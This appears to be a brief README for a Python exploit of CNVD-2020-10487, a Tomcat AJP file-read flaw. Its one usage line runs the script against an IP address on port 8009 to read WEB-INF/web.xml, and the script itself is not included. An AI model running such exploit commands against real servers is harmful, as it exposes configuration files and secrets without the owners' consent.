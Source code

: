 # CNVD-2020-10487-tomcat-fileread

python tomcatfileread.py 192.168.0.1 8009 WEB-INF/web.xml



return page mains web.xml can be read

